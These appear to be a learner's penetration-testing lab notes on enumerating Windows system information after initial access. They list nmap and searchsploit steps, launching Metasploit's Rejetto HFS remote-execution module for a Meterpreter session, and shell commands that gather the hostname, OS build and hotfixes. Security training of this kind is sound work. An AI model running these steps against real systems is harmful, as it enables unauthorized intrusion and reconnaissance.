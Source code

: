#### Enumerating System Information
- After gaining initial access to a target system,it is always important to learn more about the system like,what OS is running as well as the OS version.This information is very useful as it gives us an idea of what we can do and what type of exploits we can run.
#### What are we looking for?
- Hostname 
- OS Name(Windows 7,8 etc)
- OS Build & Service Pack( Windows 7 SP1 7600)
- OS Architecture (x64/x86)
- Installed updates/Hotfixes


### Lab
#### Initial Access
- nmap -sV 10.2.24.80
- searchsploit rejetto [ as http file server service ]
- msfconsole
- search rejetto
- use exploit/windows/http/rejetto_hfs_exec
- set everything required
- run
- this give meterpreter sessions
#### Local Enumeration
- getuid [this tell us current user]
- sysinfo [info about system]
- shell [getting cmd shell ]
- hostname [ get the hostname]
- systeminfo [all the system info,including build number,hotfixes ]
- wmic qfe get Caption,Description,HotFixID,InstalledOn[ getting the hot fix]
- ctrl +C [back to meterpreter session ]
- cd C:\\
- cd System32
- cat eula.txt [get os info,but sometime gets failed]
  

